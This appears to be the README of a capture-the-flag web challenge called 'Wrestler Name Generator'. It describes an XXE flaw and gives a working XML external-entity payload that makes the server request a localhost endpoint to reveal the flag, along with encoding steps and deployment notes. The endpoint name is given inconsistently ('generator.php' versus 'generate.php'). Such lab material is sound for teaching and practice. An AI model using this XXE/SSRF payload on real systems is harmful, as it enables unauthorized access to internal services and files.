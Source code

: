 # Wrestler Name Generator
Author: David Maria
## Description
An XXE challenge. Information is submitted to the name generator as XML, so you can edit the XML that's being submitted to try to include XML external entities. Instead of having to use XXE to read a file, you have to use it to make a request to the site. Since the XML is rendered on the web server, the request made by the XML parser trying to load the external entity will be coming from localhost to the web server. The generator.php endpoint is set to echo the flag when the request to it is made from localhost.
## Solution
Send the following XML payload to the name generator:
```<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://127.0.0.1/generate.php" >]>
    <input>
       <firstName>&xxe;</firstName>
       <lastName>wew</lastName>
    </input>
```

The XML should be base64 encoded, URL encoded, and sent in the input GET parameter to the generator.php endpoint.

## Deploy
Run the deploy script
 ```./deploy.sh```
 ## Maintenance
- Just restart or re-provision the Docker container.
